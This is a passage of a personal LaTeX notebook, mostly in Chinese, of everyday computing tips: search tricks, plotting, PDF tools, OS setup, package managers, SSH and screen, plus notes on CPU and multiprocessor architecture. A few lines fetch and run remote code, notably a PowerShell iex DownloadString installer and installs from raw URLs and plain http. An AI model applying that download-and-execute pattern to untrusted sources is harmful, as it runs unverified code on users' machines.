MOD(BITRSHIFT(D7,8),256),".",MOD(D7,256))
\end{verbatim}

With MySQL:

\begin{verbatim}
inet_ntoa
\end{verbatim}

\subsection{Google汇率查询}
汇率查询,比如欲查询人民币和韩币汇率,Google:
\begin{verbatim}
cny in won
rmb in won
china in korea currency
\end{verbatim}

\subsection{Google单位换算}
\begin{verbatim}
mile to km
\end{verbatim}

\subsection{Google技巧}
\url{http://www.googleguide.com}.
布尔运算:与(空格默认为AND)、或(大写OR,|(vertical bar))、非(-)。\verb+()+可调整运算优先级。

域搜索:site, inurl, filetype。

精确搜索:双引号

前缀:allintitle,link

同时,Google提供了高级搜索的UI界面。


























\section{Visio Alternatives}


solutions to replace visio:


1. opening a vdsx file: libreoffice,processon

2. draw a connection graph: graphviz

3. draw a blocks diagram: libreoffice,gliffy

4. draw a flow chart: gliffy, processon, graphviz(auto positioning), libreoffice

5. draw a mind mapping: xmind

%!Mode:: "TeX:UTF-8"
\section{Gnuplot制图}
在mac下安装
\begin{lstlisting}
brew install gnuplot --with-pdflib-lite --with-cairo --with-latex
\end{lstlisting}
Pdflib库实现了pdf“终端”(terminal),cairo库提供了pdfcairo“终端”。

输出成图片

\begin{lstlisting}
set term png
set output ``outputfilename.png''
\end{lstlisting}


输出成tex文件
\begin{lstlisting}
set term png
set output ``filename.png''
\end{lstlisting}


作图:
\begin{lstlisting}
    datafile = ``datafilename.txt''
    plot datafile using 1:2 #对前两列制图
\end{lstlisting}

设置文字字体字号
\begin{lstlisting}
set label 'some variable' font 'Times-Roman, 12'
\end{lstlisting}

使用cairo终端
\begin{lstlisting}
set terminal pdfcairo monochrome font ',18'
\end{lstlisting}

设置点号
\begin{lstlisting}
set pointsize 1.5
\end{lstlisting}

\section{Image Editing}

Python Pillow package is used for image processing.

\begin{verbatim}
pip install pillow
\end{verbatim}

\begin{lstlisting}
from PIL import Image

# turning a colored picture grey-scale
Image.open('color.png').convert('L').save('grey.png')

# resizing a picture
Image.open('big.png').resize((64,64)).save('small.png')
\end{lstlisting}



%!Mode:: "TeX:UTF-8"
\section{Mac OS X环境文本编辑}

使用:open -a TextEdit settings.xml 参数说明:-a指定应用
也可以是:open -e settings.xml 参数说明:-e使用文本编辑器打开
也可以是:open -t settings.xml 参数说明:-t使用默认编辑器打开



%!Mode:: "TeX:UTF-8"
\section{Markdown}

一个关于pandoc的帖子,评论了各大标记语言:
\url{http://higrid.net/c-art-pandoc_command.htm}

markdown教程
\url{http://wowubuntu.com/markdown/}



LaTex转markdown:
\begin{verbatim}
pandoc -s example4.tex -o example5.text
\end{verbatim}


%!Mode:: "TeX:UTF-8"
\section{音视频播放与编辑}

\subsection{视频播放控制}
\subsubsection{mplayer}
文件打开命令:mplayer [-af scaletempo [-speed 0.01~100]] filename

其中,-af设置音频过滤器,scaletempo实现变速不变调(pitch)功能。详情见其help输出和man页。

快捷键(man页:INTERACTIVE CONTROL):
速度调节: 	[和],以10\%为幅度。
进度调节:	左右方向键以10s为精度,上下方向键以分钟为精度,翻页键以10min为精度。

\begin{verbatim}

 p or SPACE       pause movie (press any key to continue)
 q or ESC         stop playing and quit program
 + or -           adjust audio delay by +/- 0.1 second
 o                cycle OSD mode:  none / seekbar / seekbar + timer
 * or /           increase or decrease PCM volume
 x or z           adjust subtitle delay by +/- 0.1 second
 r or t           adjust subtitle position up/down, also see -vf expand

backspace          Reset playback speed to normal.
 f                 Toggle fullscreen (also see -fs).
 T                 Toggle stay-on-top (also see -ontop).

v                Toggle subtitle visibility.
j and J          Cycle through the available subtitles.
\end{verbatim}

\subsubsection{VLC}
详情见其help输出和man页。VLC默认为变速不变调。

速度调节:[和],同mplayer一样的快捷键,只是调节幅度为0.1倍原速。

进度调节:shift/alt/ctrl+左右方向键。shift的精度为5s,alt为10s,ctrl为1min。


\subsection{音视频文件编辑}
Linux下有OpenShot Video Editor。曾用它来裁剪视频文件。

跨平台开源软件audacity,操作方式类似于Adobe Audition(CoolEditPro,不支持Linux),可以看见音频波形。支持批量导入音频文件。


%!Mode:: "TeX:UTF-8"
\section{Minicom}

\subsection{Minicom配置}

创建或编辑配置文件,保存为/etc/minirc.Filename或/etc/minicom/minirc.Filename,因系统而异。
\begin{lstlisting}[language=bash]
minicom -s Filename
\end{lstlisting}
配置文件指定设备名、波特率等。Dell服务器的串口设备名为/dev/ttyS0, 4个USB接口的设备名为/dev/ttyUSB0-/dev/ttyUSB3。对于Hili的串口连接,要求码率为115200, 软、硬件流控制都设置为No。

配置文件格式如下:
\begin{lstlisting}
    # Machine-generated file - use ``minicom -s'' to change parameters. 
     pr port             /dev/ttyUSB0 
     pu baudrate         115200 
     pu bits             8 
     pu parity           N 
     pu stopbits         1 
     pu rtscts           No
\end{lstlisting}

\subsection{Minicom登录}
按照指定配置文件,登录串口设备:
\begin{lstlisting}[language=bash]
minicom Filename
\end{lstlisting}

minirc.dfl指定了默认配置,minicom命令不加任何参数时安装该文件进行初始化。

登录后ctrl+a z显示各种快捷键选项,ctrl+a x退出并reset,ctrl+a q退出不reset。

ssh远程登录并登录minicom,执行:
\begin{lstlisting}[language=bash]
ssh -t HOSTNAME minicom Filename
\end{lstlisting}
\label{sshMinicom}


%!Mode:: "TeX:UTF-8"
\section{PDF阅读、编辑和转换}

\subsection{PDF阅读与批注}
acroread软件包包含了Adobe Reader, 兼容性好,可以调节背景色。但功能相对于Acrobat十分受限, 没有批注、书签等功能,运行效率也低下。

okular可以实现pdf的批注(F6或tools->review)和背景色改变。其缺点是,如果在gnome环境下安装需要下载几十MB的包。

mendeley可以实现批注,但批注只是内部识别。不能调节背景色。

xournal添加文字注释,下划线,通过export功能保存修改结果;但是Xournal对于篇幅较长的PDF文档太耗尽内存,因为它会将PDF文档中所有的页面都转化为图像数据置于内存之中并且不再释放。我们可以首先对文档进行分割。据说只要别大范围拖动滚动条,内存占用便不大。

evince,Foxit4Linux,永中阅读器既不能标记,又不能改变背景色。

综上,对于pdf阅读,较好的有okular,wine上的foxit,cajviewer。

pdfgrep(CLI)可以从pdf中查找正则表达式,用法类似于grep。diffpdf可以比较两个pdf文件的不同。

\subsection{PDF书签编辑}
pdfmod是目前发现的唯一一个制作书签的开源工具,但编辑不便,无法调整书签的显示顺序。Windows下的Foxit Reader可以制作pdf书签,linux版本的则不可。evince制作的书签似乎只是内部识别。因此,在Linux下最好wine一个Windows版的Foxit Reader。

\subsection{PDF页面级编辑}

pdfshuffler可以合并、分裂、排序页面,在precise pangolion尝试出错,显示没有EOF标记。

pdftk为CLI工具,功能包括合并,分裂,删页,反序,旋转,加解密,其中合并pdf的方式包括连接和互插。pdfchain是pdftk的一个GUI前端。
\begin{verbatim}
 pdftk 1.pdf 2.pdf 3.pdf cat output 123.pdf
\end{verbatim}

在mac os x上安装pdftk:
\begin{verbatim}
brew tap docmunch/pdftk
brew install pdftk
\end{verbatim}

pdfmod可以用于删页、插入其他文件、导出页面、修改各页相对顺序(通过鼠标拖动,有时比pdftk方便)、编辑索引(书签),修改文件属性。

Mac OS X自带PDF编辑工具:
\begin{verbatim}
"/System/Library/Automator/Combine PDF Pages.action/Contents/Resources/join.py"  \
-o 12.pdf 1.pdf 2.pdf
\end{verbatim}


\subsection{PDF元素级编辑}
pdfedit添加文字注释(英文),划线,删除文档元素,删加页面;感觉不太稳定,运行十分缓慢,经常在打开文件时内核转储。

可以使用inscape或gimp提取PDF中的一页,进行复杂的修改,然后使用pdf删除合并工具恢复成完整的PDF文件。

openoffice.org-pdfimport包让LibreOffice能够直接导入PDF文件,进行文字修改,再保存为odg图形文件,或者选择导出为pdf。但导入PDF时文件内的图片常常会丢失,排版可能会被破坏。所以LibreOffice目前还不能算作PDF阅读器或者编辑器。

flpsed可以添加英文文字,但可能会损坏PDF,使其不能被其他阅读器打开。

pdfstudio功能强大,但系付费软件。

\subsection{PDF元数据}
pdfmod可以修改文件元数据,如作者、标题等。pdfinfo命令行工具可以显示元数据。
pdffonts显示文件字体信息。

\subsection{PDF格式转换}
ImageMagick可以实现pdf和图片的相互转换, 使用convert命令。
\begin{verbatim}
 convert [input-options] input-file [output-options] output-file
\end{verbatim}

\begin{verbatim}
convert -density 700 -quality 100 draft.pdf draft.jpg
\end{verbatim}
详细内容参\ref{sec:imagemagick}。

cups-pdf用于将其他格式的文件如图片打印为pdf。cups-pdf打印保存位置由/etc/cups/cups-pdf.conf文件配置,一般为~/PDF,或者/var/spool/cups-pdf。

pdftotext实现pdf到文本的转换,效果一般不理想。

gpdftext是一款编辑器,可以直接导入pdf文件进行文字编辑,再保存成文本或pdf格式,但是会丢失所有除文字内容之外的信息,包括格式、排版、分页信息。

pdftohtml实现pdf到html的转换,效果往往不理想。可能需要指定编码格式,如
\verb+pdftohtml -enc GBK haha.pdf +

pdfimages提取pdf中的图片,默认保存为ppm格式。
\verb+pdfimages -j haha.pdf+。
j选项指定保存为jpg格式。

pdf2ps和ps2pdf实现pdf和ps之间的转换,基于ghostscript机制。当前ps2pdf默认使用ps2pdf14,即pdf为1.4版本。可以直接使用ps2pdf15.pdftops也能实现pdf到ps之间的转换。

pdf2djvu,pdf2dsc,pdftoppm, pdf2svg分别实现pdf到djvu,dsc,ppm, svg的转换。SVG可缩放矢量图形(Scalable Vector Graphics)是基于  svg logo可扩展标记语言(XML),用于描述二维矢量图形的一种图形格式。

chm2pdf可以将chm转换为pdf。




%!Mode:: "TeX:UTF-8"

\section{Basic Configurations After OS Installation}


\subsection{Ubuntu自动选源}
\begin{verbatim}
deb mirror://mirrors.ubuntu.com/mirrors.txt precise main restricted universe multiverse
deb mirror://mirrors.ubuntu.com/mirrors.txt precise-updates main restricted universe multiverse
deb mirror://mirrors.ubuntu.com/mirrors.txt precise-backports main restricted universe multiverse
deb mirror://mirrors.ubuntu.com/mirrors.txt precise-security main restricted universe multiverse
\end{verbatim}

\subsection{设置时区}
\begin{verbatim}
cp /usr/share/zoneinfo/Asia/Shanghai /etc/localtime 
\end{verbatim}

\subsection{网络对时}
一次性对时,可采用ntp服务或ntpdate程序:
\begin{verbatim}
ntpd -q -p cn.pool.ntp.org
ntpdate ntp.sjtu.edu.cn
ntpdate cn.pool.ntp.org
ntpdate 3.asia.pool.ntp.org
ntpdate time.windows.com
ntpdate 0.pool.ntp.org
ntpdate 1.pool.ntp.org
ntpdate time.nist.gov
ntpdate wwv.nist.gov
ntpdate s1a.time.edu.cn 
\end{verbatim}

另外,需要经常性地调整本机时间,确保不再次出现偏差。这需要在系统上部署ntp服务。
ntp服务维护了一个远程NTP服务器列表,自动完成经常性的对时功能,且对系统时间的修改比较缓和。

\begin{verbatim}
yum -y install ntp
service ntpd start
chkconfig ntpd on
\end{verbatim}

ntp服务的配置文件位于/etc/ntp.conf目录,可适当对该文件进行修改,如追加ntp服务器列表。

参考:

\href{pool.ntp.org中国服务器列表}{http://www.pool.ntp.org/zone/cn}

\href{http://tf.nist.gov/tf-cgi/servers.cgi} { NIST Internet Time Servers }



\subsection{CentOS network configuration}
/etc/sysconfig/network-scripts目录下设置各个网卡,注意ONBOOT选项。

一个例子,ifcfg-enp0s3:
\begin{verbatim}
TYPE=Ethernet
BOOTPROTO=none
DEFROUTE=yes
IPV4_FAILURE_FATAL=no
IPV6INIT=yes
IPV6_AUTOCONF=yes
IPV6_DEFROUTE=yes
IPV6_FAILURE_FATAL=no
NAME=enp0s3
UUID=00f4f6d9-f69d-4d52-92ae-b44adfc16038
DEVICE=enp0s3
ONBOOT=yes
IPADDR=172.28.3.95
PREFIX=24
GATEWAY=172.28.3.1
DNS1=159.226.59.158
DNS2=159.226.8.6
IPV6_PEERDNS=yes
IPV6_PEERROUTES=yes
\end{verbatim}


DNS可以在network-scripts中配置,也可在/etc/resolv.conf中配置。
如果选择后者,需在network-scripts中设置PEERDNS=NO。

如果将网卡设置成DHCP,只需将BOOTPROTO设置成dhcp,并删除IPADDR等信息。

\subsection{Mac OS X配置}
Go2Shell选择打开的终端
\begin{verbatim}
open -a Go2Shell --args config
\end{verbatim}

显示 Mac 隐藏文件的命令:
 
defaults write com.apple.finder AppleShowAllFiles -bool true
隐藏 Mac 隐藏文件的命令:
 
defaults write com.apple.finder AppleShowAllFiles -bool false

sshpass
brew install https://raw.github.com/eugeneoden/homebrew/eca9de1/Library/Formula/sshpass.rb


\subsection{重装备份}




重装系统时,需要备份的文件包括:
\begin{verbatim}
/etc/hosts
/etc/fstab
/etc/lightdm/lightdm.conf

.bash*
.vimrc
.gitconfig
.ssh/*
.config/Chromium/User*
\end{verbatim}


\subsection{安装版XP}
使用安装版CD安装Windows XP,大致需要四五十分钟。其中,二十分钟后会提示输入地域、账户、序列号等信息。余下不需要刻意关注。

在实验室电脑安装KVM版虚拟XP时,没有额外安装任何驱动程序。显示外观在全屏时比较模糊。设置以1280*800分辨率使得全屏时恰好覆盖整个屏幕。

如果是在PC上安装真实XP,第一件是安装网卡驱动和其他驱动,推荐使用自带网卡驱动的驱动精灵。此外,我至少需安装的软件包括360浏览器和安全卫士,输入法, Chrome浏览器。然后运行激活工具。

\subsection{克隆版XP安装}
要点有二:MBR和设置活动分区。

克隆版在复制C盘数据的过程中不更新MBR。因此,对于MBR不需要改动的情形,克隆版可以顺利安装。否则,就需要改动MBR。可以使用WinPE安装XP,PE下带有分区管理工具,在分区后可以先设置C盘为活动分区。然后使用本工具或另一款分区修复工具,更新MBR。



\subsection{VirtualBox安装XP虚拟机}
使用虚拟机安装克隆版XP经常发生蓝屏错误,提示processor.sys出现了问题。
可以通过PE系统修改\verb+C:/windows/system32/drivers/processor.sys+的名称,使系统找不到这个文件。

对于某些机构IP和MAC绑定上网的情形,VirtualBox联网方式设置成NAT方式。
在虚拟机里无需更改MAC地址,只需要设置正确的DNS服务器地址就好。

\subsection{虚拟机共享文件夹}
假如共享目录命名为\verb$public_dir$。
那么在VBox的Linux客户机中执行\verb$sudo /sbin/mount.vboxsf public_dir /mnt/$。

或者在/etc/fstab中设置自动加载:
\begin{verbatim}
sharename   mountpoint   vboxsf   defaults  0   0
\end{verbatim}
VirtualBox的详细设置方式见\url{https://www.virtualbox.org/manual/ch04.html#sharedfolders}。

在Vmware Linux Guest下,可在/mnt/hgfs下看到共享目录。如果看不到,执行:

\begin{verbatim}
sudo vmware-config-tools.pl
\end{verbatim}

Vmware虚拟机使用共享文件夹的方式详见\href{https://www.vmware.com/support/ws5/doc/ws_running_shared_folders.html}{VMware
Workstation 5.0 Using Shared Folders}。













%!Mode:: "TeX:UTF-8"
\section{Ubuntu/Mac Shortcuts}

\subsection{Mac OS X Shortcuts}

\begin{verbatim}
Command-Shift-4 : Capture to image file on desktop
Command-Shift-Control-4 : Capture to clipboard
Fn-F11: Show desktop
\end{verbatim}

\href{https://support.apple.com/zh-cn/HT201236}{Official Documentation For Mac Shortcuts}

\subsection{Bash Shortcuts}

Ctrl + a	移动到开头

Ctrl + e	移动到结尾

Option + Left	向左移动一个单词

Option + Right	向右移动一个单词

Ctrl + w	向左删除一个单词

Ctrl + l	清屏

Ctrl + d	相当于退出、logout、exit等命令

set -o vi  让bash 模拟 vi 的操作

暂停并置之后台: Ctrl+Z(fg to recover),may be a SIGTSTP signal,SUSP character

发送SIGQUIT信号: Ctrl + \

冻结终端显示: Ctrl + S(Ctrl+Q to recover,maybe a SIGCONT),NOT a SIGSTOP

向上滚屏一行:Ctrl+Shift+UpArrow

向上滚动一屏:Shift+PageUp

向上滚动至顶:Shift+Home


\subsection{Gnome}

显示桌面:Ctrl+Alt+D 或者 Super+D,Ctrl+Super+D

前往其他工作区:Ctrl+Alt+Arrowkey

切换同一程序的不同窗口 :Alt+`

移动到其他工作区 :Ctrl+Alt+Shift+Arrowkey

打开帮助:F1

打开主菜单:Alt+F1

启动程序:Alt+F2

全屏 :F11

锁屏:Ctrl+Alt+L

注销:Ctrl+Alt+Del

\subsection{General Frame Window}

关闭Tab Ctrl+W

关闭Frame Alt+F4

恢复Frame原始大小  Alt+F5

最小化 Alt+F9

最大化 Alt+F10

\subsection{Nautilus}

显示隐藏的内容 : Ctrl+H

将路径从按钮变成文字 :  Ctrl+L(如需恢复回按钮,点击文字,按Esc)



\subsection{tty切换}
Ctrl+Alt+F1~F6 从X切换到tty1~tty6

Ctrl+Alt+F7 返回X视窗系统












%!Mode:: "TeX:UTF-8"
\section{Apt-Get Package Management}

一般而言,aptitude命令优于apt命令。

查看已经安装了哪些包:
\begin{verbatim}
dpkg -l
\end{verbatim}

查看软件包版本和其他信息
\begin{verbatim}
 aptitude show mendeleydesktop
 apt-cache showpkg mendeleydesktop (详细信息,包括依赖关系)
 apt-cache show mendeleydesktop (概要信息)
 apt-cache depends xxx
 apt-cache rdepends xxx(被依赖)
\end{verbatim}

搜索软件包:
\begin{verbatim}
 aptitude search pkgname (推荐)
apt-cache search 正则表达式
\end{verbatim}

如果官方源中没有相关的包,可以查看PPA仓库:
\url{https://launchpad.net/ubuntu/+ppas}

安装ppa软件的一般方法有两种:
\begin{verbatim}
sudo add-apt-repository source_line
sudo add-apt-repository ppa:<user>/<ppa-name>
\end{verbatim}

\begin{verbatim}
查找文件属于哪个包
apt-file search/find filename
查询软件包包含的文件
atp-file list/show pkgname
\end{verbatim}

编译时缺少h文件的自动处理
\begin{verbatim}
sudo auto-apt run ./configure
\end{verbatim}

清理下载包的临时存放目录/var/cache/apt/archives
\begin{verbatim}
apt-get clean
apt-get autoclean (只删除部分无用的包)
\end{verbatim}

备份当前系统安装的所有包的列表
\begin{verbatim}
dpkg --get-selections | grep -v deinstall > ~/somefile
\end{verbatim}

从上面备份的安装包的列表文件恢复所有包
\begin{verbatim}
dpkg --set-selections < ~/somefile
sudo dselect
\end{verbatim}

删除系统不再使用的孤立软件
\begin{verbatim}
sudo apt-get autoremove
\end{verbatim}

查看包在服务器上面的地址
\begin{verbatim}
apt-get -qq --print-uris install ssh | cut -d\' -f2
\end{verbatim}

除所有已删除包的残馀配置文件
\begin{verbatim}
dpkg -l |grep ^rc|awk '{print $2}' |sudo xargs dpkg -P 
\end{verbatim}
如果你的系统中没有残留配置文件了,会报错。

\subsection{dpkg出错}
\label{err:dpkgConfig}
\begin{verbatim}
dpkg:处理 xxx (--configure)时出错
\end{verbatim}
处理方式,找到/var/lib/dpkg/info目录,备份他处,重新目录,执行
\begin{verbatim}
apt-get update
apt-get -f install
\end{verbatim}
在将新建的info目录同备份的目录合并

\section{Yum Package Management}
\label{yum}
\subsection{配置更新源}
\subsubsection{手动选择源}
开源镜像网站http://mirrors.163.com/和http://mirrors.sohu.com/下载fedora的源配置文件。为了区别镜像,打开下载的镜像文件后把三个中括号[]中的fedora分别替换为fedora-163与fedora-sohu。将修改好的配置文件保存到/etc/yum.repos.d/目录下。最后在终端输入:
\begin{lstlisting}
sudo yum makecache
\end{lstlisting}

\subsubsection{安装fastest-mirror}
\begin{lstlisting}
sudo yum -y install yum-plugin-fastestmirror 
\end{lstlisting}

\subsubsection{添加rpmfusion源}
\begin{lstlisting}
sudo rpm -ivh http://download1.rpmfusion.org/free/fedora/rpmfusion-free-release-stable.noarch.rpm 
http://download1.rpmfusion.org/nonfree/fedora/rpmfusion-nonfree-release-stable.noarch.rpm
\end{lstlisting}

\subsection{升级系统}
\begin{lstlisting}
sudo yum update
\end{lstlisting}



\section{Chocolatey Package Management}

Installation steps:
1. Make up a path for chocolatey installation, like
\verb$D:\InstalledPrograms\Chocolatey$, and create a environment variable
ChocolateyInstall with this value.
2. Open a privileged powershell session to execute:
\begin{verbatim}
 set-executionpolicy remotesigned
iex ((New-Object System.Net.WebClient).DownloadString('https://chocolatey.org/install.ps1'))
\end{verbatim}

















%!Mode:: "TeX:UTF-8"
\section{SSH}

\subsection{login and execute commands}
\begin{lstlisting}[language=bash]
   ssh HOSTNAME -t ``cd /somedir; bash'' 
\end{lstlisting}

\subsection{login without passwords}

First, generate a pair of RSA keys and store them on ~/.ssh.
\begin{verbatim}
ssh-keygen -t rsa
\end{verbatim}

Second, copy the public key file to a target host.
\begin{verbatim}
ssh-copy-id -i ~/.ssh/id_rsa.pub root@172.30.30.101
\end{verbatim}


\subsection{ssh tunneling}

Port forwarding:
\begin{verbatim}
 ssh -p 22 -L 8443:10.139.90.144:8443 -L 8080:10.139.90.148:8080 -L
13306:10.139.90.148:3306 -N -lroot 10.9.0.5
\end{verbatim}

\href{http://ju.outofmemory.cn/entry/123978}{svn使用socks代理}

\begin{verbatim}
http-proxy-host = 127.0.0.1
http-proxy-port = 12007
http-compression = yes
\end{verbatim}

\subsection{screen}

screen is used to manage shell sessions.

Enter a new or existing session:

\begin{verbatim}
 screen -dR screen_name
\end{verbatim}

Show existing sessions:

\begin{verbatim}
 screen -ls
\end{verbatim}
 

Enter an existing session:

\begin{verbatim}
 screen -r screen_name
\end{verbatim}
 
 
Session quit(detach):
\begin{verbatim}
 screen -d screen_name
 screen -d 
\end{verbatim}

To terminate, i.e., delete the current session, type \textbf{Ctrl + D}, or use:
\begin{verbatim}
screen -X -S screen_name quit 
\end{verbatim}



To activate a screen command, type \textbf{Ctrl+A}, following a command key:

\begin{description}
\item[D] quit a session
\end{description}


screen cli options descriptions:

\begin{description}
\item[-d] Detach the elsewhere running screen
\item[-R] Reattach if possible, otherwise start a new session
\item[-r session] Reattach to a detached screen process
\item[-X] Execute <cmd> as a screen command in the specified session
\item[-S sockname]   Name this session <pid>.sockname instead of <pid>.<tty>.<host>.
\end{description}













%!Mode:: "TeX:UTF-8"
\section{任务管理}
\href{http://www.capterra.com/task-management-software/}{Top Task Management
Software Products}

%!Mode:: "TeX:UTF-8"
\section{VPN connections}
\subsection{L2TP}
VPN is implemented by L2TP or PPTP, the former of which is more secure.

L2TP is the payload of UDP. L2TP is usually used to transport PPP sessions.
L2TP uses IPSec to support anthentication and encryption.


Some L2TP servers require no shared key. In that case, a client should create a
configuration file /etc/ppp/options:
\begin{verbatim}
plugin L2TP.ppp
l2tpnoipsec
\end{verbatim}

\subsection{OpenVPN}


%!Mode:: "TeX:UTF-8"
\section{Windows CLI Techniques} 

\subsection{Showing System Info}

General system information, including hardware model, OS version, and physical memory usage.
\begin{verbatim}
systeminfo
\end{verbatim}

Information about network interfaces:
\begin{verbatim}
ipconfig /all
\end{verbatim}

To show available memory(in KB),
\begin{verbatim}
wmic OS get FreePhysicalMemory
\end{verbatim}

Get CPU usage:
\begin{verbatim}
wmic cpu get loadpercentage
\end{verbatim}

\subsection{MAC address manual specification}

Locate the NIC from the device manager.
From the ATTRIBUTE dialogue, modify the tag called Network Address. 


\subsection{Process Management}
List processes with most memory-consuming ones ahead:

\begin{verbatim}
# nh: no-header line
# sort -k: sort by some key field
tasklist -nh | grep -v System | sort -r -k 5
\end{verbatim}

Kill a process by PID or name:
\begin{verbatim}
taskkill -pid 7920 -f
taskkill -im ebook* -f
\end{verbatim}

\subsection{netstat}


\begin{verbatim}
netstat -ab
\end{verbatim}


%!Mode:: "TeX:UTF-8"
 \chapter{硬件常识}

%!Mode:: "TeX:UTF-8"
\section{计算机体系结构}

\textbf{冯·诺依曼结构}也称\textbf{普林斯顿}结构,是一种将程序指令存储器和数据存储器合并在一起的存储器结构。程序指令存储地址和数据存储地址指向同一个存储器的不同物理位置,因此程序指令和数据的宽度相同,如英特尔公司的8086中央处理器的程序指令和数据都是16位宽。


\textbf{哈佛结构}是一种将程序指令存储和数据存储分开的存储器结构,即程序存储器和数据存储器是两个独立的存储器,每个存储器独立编址、独立访问。与两个存储器相对应的是系统的4条总线:程序的数据总线与地址总线,数据的数据总线与地址总线。这种分离的程序总线和数据总线可允许在一个机器周期内同时获得指令字(来自程序存储器)和操作数(来自数据存储器)。程序指令存储和数据存储分开,可以使指令和数据有不同的数据宽度。哈佛结构是为了高速数据处理而采用的,因为可以同时读取指令和数据(分开存储的)。大大提高了数据吞吐率,缺点是结构复杂。


\begin{figure}[ht]
	\begin{center}
	
\includegraphics[keepaspectratio,width=0.3\paperwidth]{Pictures/sysBusCsapp.png}
		\caption{CSAPP:硬件体系结构}
	\label{fig:HardwareStructure}
	\end{center}
\end{figure}

\textbf{改进的哈佛结构},其结构特点为:
使用两个独立的存储器模块,分别存储指令和数据,每个存储模块都不允许指令和数据并存,以便实现并行处理;具有一条独立的地址总线和一条独立的数据总线,利用\textbf{公用地址总线}访问两个存储模块(程序存储模块和数据存储模块),\textbf{公用数据总线}则被用来完成程序存储模块或数据存储模块与CPU之间的数据传输;两条总线由程序存储器和数据存储器分时共用。

x86-64(简称x64)是64位版本的x86指令集,向前兼容于16位及32位的x86架构。x64于1999年由AMD设计,AMD首次公开64位集以扩充给x86,称为“AMD64”。其后也为英特尔所采用,现时英特尔称之为“Intel 64”,在之前曾使用过“Clackamas Technology” (CT)、“IA-32e”及“EM64T”。
Apple使用"x86-64"去称呼此64位架构。太阳微系统(已被甲骨文收购)及Microsoft称它为"x64"。BSD家族及其他Linux发布版则使用"amd64",32位版本则称为"i386"(或i486/586/686)。

\clearpage
%!Mode:: "TeX:UTF-8"
\section{多处理器架构}


从系统架构来看,目前的商用服务器大体可以分为三类,即对称多处理器结构(SMP:Symmetric Multi-Processor),非一致存储访问结构(NUMA:Non-Uniform Memory Access),以及海量并行处理结构(MPP:Massive Parallel Processing)。

\subsection{SMP(Symmetric Multi-Processor)}
所谓对称多处理器结构,是指服务器中多个CPU对称工作,无主次或从属关系。各CPU共享相同的物理内存,每个CPU访问内存中的任何地址所需时间是相同的,因此SMP也被称为一致存储器访问结构(UMA:Uniform Memory Access)。对SMP服务器进行扩展的方式包括增加内存、使用更快的CPU、增加CPU、扩充I/O(槽口数与总线数)以及添加更多的外部设备(通常是磁盘存储)。

SMP服务器的主要特征是共享,系统中所有资源(CPU、内存、I/O等)都是共享的。也正是由于这种特征,导致了SMP服务器的主要问题,那就是它的扩展能力非常有限。对于SMP服务器而言,每一个共享的环节都可能造成SMP服务器扩展时的瓶颈,而最受限制的则是内存。由于每个CPU必须通过相同的内存总线访问相同的内存资源,因此随着CPU数量的增加,内存访问冲突将迅速增加,最终会造成CPU资源的浪费,使CPU性能的有效性大大降低。实验证明,SMP服务器CPU利用率最好的情况是2至4个CPU。


\subsection{NUMA(Non-Uniform Memory Access)}

由于SMP在扩展能力上的限制,人们开始探究如何进行有效地扩展从而构建大型系统的技术,NUMA就是这种努力下的结果之一。
利用NUMA技术,可以把几十个CPU(甚至上百个CPU)组合在一个服务器内。

NUMA服务器的基本特征是具有多个CPU模块,每个CPU模块由多个CPU(如4个)组成,并且具有独立的本地内存、I/O槽口等。由于其节点之间可以通过互联模块(如称为Crossbar Switch)进行连接和信息交互,因此每个CPU可以访问整个系统的内存(这是NUMA系统与MPP系统的重要差别)。显然,访问本地内存的速度将远远高于访问远地内存(系统内其它节点的内存)的速度,这也是非一致存储访问NUMA的由来。由于这个特点,为了更好地发挥系统性能,开发应用程序时需要尽量减少不同CPU模块之间的信息交互。

利用NUMA技术,可以较好地解决原来SMP系统的扩展问题,在一个物理服务器内可以支持上百个CPU。比较典型的NUMA服务器的例子包括HP的Superdome、SUN15K、IBMp690等。
但NUMA技术同样有一定缺陷,由于访问远地内存的延时远远超过本地内存,因此当CPU数量增加时,系统性能无法线性增加。
如HP公司发布Superdome服务器时,曾公布了它与HP其它UNIX服务器的相对性能值,结果发现,64路CPU的Superdome (NUMA结构)的相对性能值是20,而8路N4000(共享的SMP结构)的相对性能值是6.3。从这个结果可以看到,8倍数量的CPU换来的只是3倍性能的提升。

\subsection{MPP(Massive Parallel Processing)}
和NUMA不同,MPP提供了另外一种进行系统扩展的方式,它由多个SMP服务器通过一定的节点互联网络进行连接,协同工作,完成相同的任务,从用户的角度来看是一个服务器系统。其基本特征是由多个SMP服务器(每个SMP服务器称节点)通过节点互联网络连接而成,每个节点只访问自己的本地资源(内存、存储等),是一种完全无共享(Share Nothing)结构,因而扩展能力最好,理论上其扩展无限制,目前的技术可实现512个节点互联,数千个CPU。目前业界对节点互联网络暂无标准,如NCR的Bynet,IBM的SPSwitch,它们都采用了不同的内部实现机制。但节点互联网仅供MPP服务器内部使用,对用户而言是透明的。

在MPP系统中,每个SMP节点也可以运行自己的操作系统、数据库等。但和NUMA不同的是,它不存在异地内存访问的问题。换言之,每个节点内的CPU不能访问另一个节点的内存。节点之间的信息交互是通过节点互联网络实现的,这个过程一般称为数据重分配(Data Redistribution)。

